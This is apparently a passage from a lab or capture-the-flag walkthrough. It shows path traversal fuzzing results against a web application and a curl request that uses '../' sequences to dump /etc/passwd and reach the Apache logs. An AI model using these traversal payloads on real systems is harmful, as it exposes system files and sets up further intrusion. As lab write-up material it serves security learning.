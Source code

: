 ```bash
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 44ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 46ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 44ms]
../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 44ms]
../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 44ms]
../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 45ms]
../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 41ms]
../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../etc/passwd  [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 41ms]
../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 41ms]
../../../../../../../var/log/apache2/error.log [Status: 200, Size: 7331, Words: 805, Lines: 48, Duration: 6257ms]
../../../../../../../var/log/apache2/access.log [Status: 200, Size: 29068003, Words: 4055553, Lines: 225344, Duration: 178ms]
:: Progress: [922/922] :: Job [1/1] :: 439 req/sec :: Duration: [0:00:08] :: Errors: 24 ::
```

This also gives the location of the Apache logs, which are about to come in handy.

Let's get `/etc/passwd`:

```bash
$ curl -s http://192.168.238.72:8593/index.php?book=../../../../../etc/passwd | html2text

Main_Page Book_List
We are still setting up the library! Try later on!
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:
x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/
usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/
var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/
nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/
var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:
/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System
(admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/
nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/
sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/
systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/
systemd:/usr/sbin/nologin messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/
sbin/nologin avahi:x:106:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/
sbin/nologin saned:x:107:118::/var/lib/saned:/usr/sbin/nologin colord:x:108:
```